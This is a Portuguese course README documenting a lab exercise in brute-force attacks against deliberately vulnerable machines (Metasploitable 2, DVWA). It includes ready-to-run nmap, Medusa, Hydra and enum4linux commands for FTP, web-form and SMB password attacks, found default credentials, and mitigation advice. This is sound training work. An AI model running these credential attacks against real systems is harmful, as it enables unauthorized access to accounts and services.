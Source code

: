 # Protocolos-de-Autentica-o-Brute-force
Desafio Dio Santander
Projeto Prático – Cibersegurança 2025
Curso: Protocolos de Autenticação & Brute Force
Instrutora: Isadora Ferrão
Plataforma: DIO + Santander
Objetivo
Desenvolver, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (como Metasploitable 2 e DVWA), para simular cenários de ataques de força bruta e aplicar medidas de mitigação.
Etapas do Projeto
1. Configuração do Ambiente
•	Criação de duas máquinas virtuais (Kali Linux e Metasploitable 2) no VirtualBox.
•	Rede interna configurada em modo “host-only”.
2. Ataques Simulados
•	Força bruta em FTP.
•	Automação de tentativas em formulário web (DVWA).
•	Password spraying em SMB com enumeração de usuários.
3. Documentação dos Testes
•	Uso de wordlists simples.
•	Registro dos comandos utilizados.
•	Validação de acessos obtidos.
•	Recomendações de mitigação.
Conceitos Fundamentais
Protocolos de Autenticação
São métodos utilizados para validar a identidade de usuários ou serviços antes de conceder acesso. Exemplos:
•	HTTP Basic/Digest: simples, usado em aplicações web.
•	Form-based: autenticação via formulários HTML.
•	NTLM/SMB: protocolo legado da Microsoft.
•	Kerberos: baseado em tickets, usado em ambientes AD.
•	LDAP/AD Bind: autenticação em diretórios.
•	SSH: autenticação por senha ou chave pública.
•	RDP: acesso remoto a desktops Windows.
•	OAuth/OpenID Connect: autenticação moderna para APIs e web apps.
Tipos de Ataques de Força Bruta
•	Online brute-force: tentativa direta contra serviços ativos.
•	Offline brute-force: quebra de hashes localmente.
•	Credential stuffing: uso de credenciais vazadas.
•	Password spraying: teste de senhas comuns em múltiplos usuários.
•	Dictionary attacks: uso de listas de palavras com variações.
Ferramentas Utilizadas
•	Kali Linux: sistema operacional voltado para segurança da informação.
•	Metasploitable 2: VM Linux vulnerável para testes.
•	Medusa: ferramenta de brute-force rápida e paralela.
•	Hydra: ferramenta de brute-force para diversos serviços.
•	Ncrack: focada em autenticação de rede.
•	John the Ripper: quebra de senhas a partir de hashes.
•	WPScan: auditoria de segurança em sites WordPress.
•	Nmap: varredura de rede e detecção de serviços.
•	Enum4linux: enumeração de usuários e serviços SMB.
Execução dos Testes
Varredura de Rede com Nmap
nmap -sV -p 21,22,80,445,139 192.168.56.103
Resultado: portas FTP, SSH, HTTP e SMB abertas, todas com versões vulneráveis.
Ataque FTP com Medusa
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
Credenciais encontradas: msfadmin:msfadmin.
Teste de Login via Cliente FTP
ftp 192.168.56.103
Acesso confirmado com comandos como ls, get, put, etc.
Ataque a Formulário Web (DVWA)
Como o módulo http-m do Medusa não estava disponível, foi utilizado o Hydra:
hydra -L users.txt -P pass.txt 192.168.56.103 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -t 6
Credenciais encontradas: admin:password.
 Ataque SMB com Enumeração e Password Spraying
enum4linux -a 192.168.56.103 | tee enum_output.txt
Usuários identificados: msfadmin, root, postgre, usr, nservice.
Ataque com Medusa:
medusa -h 192.168.56.103 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
Credenciais válidas: msfadmin:msfadmin.
Validação com smbclient:
smbclient -L //192.168.56.103 -U msfadmin
Acesso confirmado aos shares: print$, tmp, opt, ADMIN$, msfadmin.
Medidas de Mitigação
Autenticação
•	Implementar MFA/2FA.
•	Exigir senhas fortes e únicas.
•	Utilizar autenticação por chave pública (SSH).
Controle de Acesso
•	Limitar tentativas por IP/usuário.
•	Bloquear contas após múltiplas falhas.
•	Monitorar e alertar sobre tentativas suspeitas.
Hardening de Serviços
•	Atualizar softwares vulneráveis.
•	Aplicar patches de segurança.
•	Remover serviços desnecessários.
Proteção de Rede
•	Desabilitar SMBv1.
•	Usar FTPS/SFTP em vez de FTP.
•	Segmentar redes e configurar firewalls adequadamente.
 Conclusão
A segurança da informação vai muito além de antivírus e firewalls. É essencial considerar fatores humanos, políticas organizacionais e práticas de defesa proativas. O conhecimento técnico aliado à conscientização é a chave para ambientes mais seguros.
A segurança da informação vai muito além de antivírus e firewalls. É essencial considerar fatores humanos, políticas organizacionais e práticas de defesa proativas. O conhecimento técnico aliado à conscientização é a chave para ambientes mais seguros.

